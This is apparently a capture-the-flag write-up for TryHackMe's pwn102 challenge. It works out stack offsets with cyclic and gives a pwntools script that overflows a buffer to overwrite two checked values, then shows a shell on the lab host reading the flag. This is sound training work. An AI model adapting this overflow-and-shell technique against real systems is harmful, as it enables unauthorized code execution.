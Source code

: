 
This time there are two preset value with value 0xbadf00d and 0xfee1dead we have to rewrite them to 0xc0ff33 and 0xc0d3
```bash
Using gdb to get the offset for these comparisions

┌──(kali㉿kali)-[~/TryHackMe/PWN101/chall2]
└─$ cyclic -l caab
108
                                                                                                                                                                                              

┌──(kali㉿kali)-[~/TryHackMe/PWN101/chall2]
└─$ cyclic -l baab
104
```

Our exploit
```py
# /chall2/get_shell.py
from pwn import *

exe = './pwn102.pwn102'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# rbp - 4 = 108
# rbp - 8 = 104

payload = b"\x90"*104 + p32(0xc0d3) + p32(0xc0ff33)

write("payload.txt",payload)

io = start()
io.sendline(payload)
io.interactive() 
```

```bash
python3 get_shell.py REMOTE 10.10.145.112 9002
[+] Opening connection to 10.10.145.112 on port 9002: Done
[*] Switching to interactive mode
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? Yes, I need c0ff33 to c0d3
$ ls
flag.txt
pwn102
pwn102.c
$ cat flag.txt
THM{fake_flag}   # get you own flag
```
